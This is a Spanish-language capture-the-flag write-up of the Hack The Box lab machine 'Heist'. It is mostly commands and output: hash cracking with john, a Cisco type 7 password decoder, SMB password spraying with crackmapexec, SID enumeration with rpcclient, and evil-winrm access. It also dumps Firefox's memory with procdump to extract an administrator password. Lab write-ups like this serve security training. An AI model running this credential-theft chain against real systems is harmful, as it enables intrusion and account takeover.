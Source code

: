 ```yaml
---
layout: single
title: HTB-Heist
excerpt: "WriteUp de la máquina HTB Heist -- Type: Easy"
date: 2022-04-06
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/heist/heist.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/heist/heist.png"></centre>


[Maquina](https://app.hackthebox.com/machines/Heist) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.149
```

```bash
Nmap scan report for 10.10.10.149
Host is up (0.042s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-04-06T13:56:12
|_  start_date: N/A
|_clock-skew: 5m43s
```

En la web podemos ver un panel de login y podemos entrar como **guest**
<centre><img src="/assets/images/writeups/heist/panel1.png"></centre>

Una vez dentro, veriamos que se trata de una especie de panel de ticketing donde hay diferentes usuarios que guardamos los nombres y tiene un fichero adjuntado a un mensaje donde se encuentran contraseñas que podemos crackear.
<centre><img src="/assets/images/writeups/heist/panel2.png"></centre>
```txt
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
```


## Explotación

Con **john** podemos crackear el md5:
```bash
john  --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long pass.txt

└─$ john --show pass.txt
?:stealth1agent
```

Y con el siguiente script en python que se puede encontrar por internet se pueden descifrar las otras dos passwords:
```python
#!/usr/bin/env python3

import sys
from binascii import unhexlify

if len(sys.argv) != 2:
    print(f"Usage: {sys.argv[0]} [level 7 hash]")
    exit()

static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]

plain = ''.join([chr(x ^ ord(key[i % len(key)]))  for i, x in enumerate(enc)])
print(plain)
```

```bash
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 0242114B0E143F015F5D1E161713      
$uperP@ssword
                                                                                                                                                                                                                                            
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?d
```

Usamos **crackmapexec** para comprobar si existe algun usuario con alguna contraseña para logearse en la máquina.
```bash
crackmapexec smb 10.10.10.149 -u usr.txt -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent
```

Podemos enumerar mas usuarios en la máquina en el caso de que los necesitaramos.
```bash
rpcclient -U 'hazard%stealth1agent' 10.10.10.149
```      

```txt
rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008 
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
```

```bash
for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; done
```

Añadimos los siguientes usuarios a la nuestra lista.
```txt
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)
```

```bash
crackmapexec smb 10.10.10.149 -u chase -p pass.txt
```

```txt
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d 
```

Nos conectamos con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d'    
```

Al movernos por la máquina no encontramos nada y podriamos mirar los procesos con el comando **PS** y nos encontramos algunos de **firefox** y podríamos intentar sacar algunas **credenciales** que tenga en el navegador.
```txt COMANDO PS
   1478      57    23496      79184              4316   1 explorer
    347      19    10240      38684       0.05   1736   1 firefox
    405      33    26756      84500       0.80   2584   1 firefox
   1048      63   112260     188264       3.83   3672   1 firefox
    385      28    21712      58504       0.97   6288   1 firefox
    355      25    16432      39132       0.09   6652   1 firefox
     49       6     1504       3852               756   0 fontdrvhost
     49       6     1792       4648               764   1 fontdrvhost
```

Nos dumpeamos las credenciales con el [Procdump](https://download.sysinternals.com/files/Procdump.zip) y lo subimos con el comando upload de **evil-winrm**.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -accepteula -ma 1736

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[13:34:14] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_220419_133414.dmp
[13:34:14] Dump 1 writing: Estimated dump file size is 288 MB.
[13:34:16] Dump 1 complete: 288 MB written in 1.5 seconds
[13:34:16] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Con el programa [Strings](https://download.sysinternals.com/files/Strings.zip) podemos aclarar el fichero dmp a un txt algo mas visible para nosotros.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> cmd /c "strings.exe -accepteula 
firefox.exe_220419_133414.dmp > fichero.txt"
````



Buscamos la posible contraseña en el **fichero.txt**
```txt
*Evil-WinRM* PS C:\Users\Chase\Documents> findstr "login_password" fichero.txt
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
*Evil-WinRM* PS C:\Users\Chase\Documents> 
```

Comprobamos que usuario somos al entrar con **evil-winrm**
```bash
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'    
```
```txt
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   IPv6 Address. . . . . . . . . . . : dead:beef::d8
   IPv6 Address. . . . . . . . . . . : dead:beef::dcaf:64d7:3f43:1c72
   Link-local IPv6 Address . . . . . : fe80::dcaf:64d7:3f43:1c72%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.149
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%15
                                       10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


Flag **Chase**:
```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir


    Directory: C:\Users\Chase\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/22/2019   9:08 AM            121 todo.txt
-ar---        4/19/2022   1:21 PM             34 user.txt


*Evil-WinRM* PS C:\Users\Chase\Desktop>
```

Flag **Administrator**
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/19/2022   1:21 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```